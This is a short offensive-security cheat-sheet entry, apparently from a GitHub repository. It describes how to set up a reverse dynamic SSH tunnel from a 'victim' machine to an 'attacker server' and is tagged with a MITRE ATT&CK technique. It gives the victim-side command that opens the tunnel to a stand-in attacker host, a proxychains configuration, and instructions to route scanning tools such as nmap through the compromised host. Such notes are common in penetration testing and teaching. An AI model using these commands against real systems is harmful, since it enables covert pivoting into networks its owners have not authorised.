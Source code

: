 # Reverse dynamic ssh tunnels

**Description:** This entry describes how to setup a reverse dynamic ssh tunnel from a victim machine

**Mitre Att&ck:** [https://attack.mitre.org/techniques/T1021](https://attack.mitre.org/techniques/T1021/)

**Requirements:** ssh, proxychains

## Host (Victim) machine

```
ssh -R 2222 <user>@<attacker_server>
```

Run this command from the host machine to create a reverse dyanmic tunnel.

## Attacker server

```
apt install proxychains
```

Install proxychains

```
vim /etc/proxychains.conf

# Edit this line
socks4 127.0.0.1 2222
```

Open and update the proxychains configuration to the port specified in your previous command e.g. 2222

```
proxychains <supported_tool>
```

Run proxychains with supported tools such as nmap and the traffic will go through the host (victim machine)
  
## References
* https://www.openssh.com/txt/release-7.6
